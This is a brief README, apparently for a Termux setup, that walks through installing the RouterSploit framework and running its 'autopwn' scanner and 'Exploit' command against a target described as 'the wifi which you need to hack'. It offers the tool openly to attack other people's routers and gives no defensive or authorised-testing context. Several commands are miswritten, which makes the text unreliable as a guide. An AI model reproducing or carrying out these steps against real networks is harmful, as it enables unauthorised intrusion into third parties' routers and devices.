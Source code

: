 # Routerspoliet

➡️ FOLLOW MY COMMANDS⬅️

$pkg update 

$pkg upgrade

$gitclone:https://github.com/threat9/routersploit

$ls

$Cd routersploit

$ls

$Pip install requests

$Pip install future 

$Pip install -r requirements.txt

$Pip install -r  requirements-dev.txt 

$Python rsf.py

show all
Use scanners/autopwn
Show options
Set target <IP of the wifi which you need to hack >
Exploit
  
  ➡️Tool has installed⬅️
